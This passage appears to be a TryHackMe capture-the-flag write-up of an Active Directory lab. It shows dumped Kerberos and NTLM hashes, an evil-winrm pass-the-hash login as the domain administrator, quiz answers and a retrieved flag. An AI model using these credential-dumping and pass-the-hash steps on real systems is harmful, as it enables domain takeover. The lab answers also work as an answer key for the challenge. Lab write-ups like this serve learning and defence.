 ```bash
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:8b366fb2f973b82a26ee00882054e354911117403cca5934de0d1ba848b473e8
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:ed07eb1662813ed845489258db4af1b5
ATTACKTIVEDIREC$:des-cbc-md5:f49da7071a619d85
[*] Cleaning up...
```

* as of now we have Administrator hash of domain, we either crack it to get his password or directly perform a `PassTheHash` attack.
* here we directly pass the hash using evil-winrm. (as that easily instead of cracking it)

```bash
┌──(root💀kali)-[~/thm/attacktive/evil-winrm]
└─# evil-winrm -u administrator -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.85.191
Evil-WinRM shell v2.4
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
thm-ad\administrator
```

#### **Questions**

*   What method allowed us to dump NTDS.DIT?

    `DRSUAPI`
*   What is the Administrators NTLM hash?

    `0e0363213e37b94221497260b0bcb4fc`
*   What method of attack could allow us to authenticate as the user without the password?

    `Pass The Hash`
*   Using a tool called Evil-WinRM what option will allow us to use a hash?

    `-H`

## Flag Submission Panel

* svc-admin

```powershell
*Evil-WinRM* PS C:\Users\backup\desktop> cd ../../svc-admin/desktop
*Evil-WinRM* PS C:\Users\svc-admin\desktop> dir

    Directory: C:\Users\svc-admin\desktop
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  12:18 PM             28 user.txt.txt

*Evil-WinRM* PS C:\Users\svc-admin\desktop> more user.txt.txt
TryHackMe{K3rb3r0s_Pr3_4uth}
```
